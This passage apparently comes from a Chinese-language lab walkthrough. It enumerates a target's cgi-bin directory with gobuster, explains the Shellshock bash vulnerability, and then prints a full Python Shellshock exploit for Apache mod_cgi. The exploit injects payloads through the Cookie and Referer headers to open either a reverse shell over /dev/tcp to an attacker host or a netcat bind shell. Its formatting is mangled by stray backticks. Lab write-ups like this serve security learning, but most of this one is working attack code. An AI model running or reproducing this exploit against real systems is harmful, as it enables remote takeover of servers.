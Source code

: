 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

没扫到可利用的信息，cgi-bin目录下运行的都是程序，应该会有可执行的文件，我们修改一下后缀名再来扫一遍目录

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.7.153/cgi-bin -x php,py,pl,sh,cgi
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫到一个shell.sh,exploit-db上去找个exp

### ShellShock(破壳漏洞)

简介：

Shellshock的原理是利用了Bash在导入环境变量函数时候的漏洞，启动Bash的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。

        在有些CGI脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用Shellshock漏洞的机会。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

把payload保存为exp.py

```
`#!/usr/bin/env python``from socket import *``from threading import Thread``import thread, time, httplib, urllib, sys` `stop = False``proxyhost = ""``proxyport = 0``def usage():` `print """` `Shellshock apache mod_cgi remote exploit``Usage:``./exploit.py var=<value>``Vars:``rhost: victim host``rport: victim port for TCP shell binding``lhost: attacker host for TCP shell reversing``lport: attacker port for TCP shell reversing``pages:  specific cgi vulnerable pages (separated by comma)``proxy: host:port proxy``Payloads:``"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)``"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)``Example:``./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234``./exploit.py payload=bind rhost=1.2.3.4 rport=1234``Credits:``Federico Galatolo 2014``"""` `sys.exit(0)``def exploit(lhost,lport,rhost,rport,payload,pages):` `headers = {"Cookie": payload, "Referer": payload}` `for page in pages:` `if stop:` `return` `print "[-] Trying exploit on : "+page` `if proxyhost != "":` `c = httplib.HTTPConnection(proxyhost,proxyport)` `c.request("GET","http://"+rhost+page,headers=headers)` `res = c.getresponse()` `else:` `c = httplib.HTTPConnection(rhost)` `c.request("GET",page,headers=headers)` `res = c.getresponse()` `if res.status == 404:` `print "[*] 404 on : "+page` `time.sleep(1)` `args = {}``for arg in sys.argv[1:]:` `ar = arg.split("=")` `args[ar[0]] = ar[1]``try:` `args['payload']``except:` `usage()``if args['payload'] == 'reverse':` `try:` `lhost = args['lhost']` `lport = int(args['lport'])` `rhost = args['rhost']` `payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"` `except:` `usage()``elif args['payload'] == 'bind':` `try:` `rhost = args['rhost']` `rport = args['rport']` `payload = "() { :;}; /bin/bash -c 'nc -l -p "+rport+" -e /bin/bash &'"` `except:` `usage()``else:` `print "[*] Unsupported payload"` `usage()``try:` `pages = args['pages'].split(",")``except:` `pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv"]``try:` `proxyhost,proxyport = args['proxy'].split(":")``except:` `pass` `if args['payload'] == 'reverse':` `serversocket = socket(AF_INET, SOCK_STREAM)` `buff = 1024` `addr = (lhost, lport)` `serversocket.bind(addr)` `serversocket.listen(10)` `print "[!] Started reverse shell handler"``    thread.start_new_thread(exploit,(lhost,lport,rhost,0,payload,pages,))``if args['payload'] == 'bind':` `serversocket = socket(AF_INET, SOCK_STREAM)` `addr = (rhost,int(rport))` `thread.start_new_thread(exploit,("",0,rhost,rport,payload,pages,))``buff = 1024``while True:` `if args['payload'] == 'reverse':` `clientsocket, clientaddr = serversocket.accept()` `print "[!] Successfully exploited"` `print "[!] Incoming connection from "+clientaddr[0]` `stop = True` `clientsocket.settimeout(3)` `while True:` `reply = raw_input(clientaddr[0]+"> ")` `clientsocket.sendall(reply+"\n")` `try:` `data = clientsocket.recv(buff)` `print data` `except:` `pass` `    if args['payload'] == 'bind':` `try:` `serversocket = socket(AF_INET, SOCK_STREAM)` `time.sleep(1)` `serversocket.connect(addr)` `print "[!] Successfully exploited"` `print "[!] Connected to "+rhost` `stop = True` `serversocket.settimeout(3)` `while True:` `reply = raw_input(rhost+"> ")` `serversocket.sendall(reply+"\n")` `data = serversocket.recv(buff)` `print data` `except:` `pass`
```
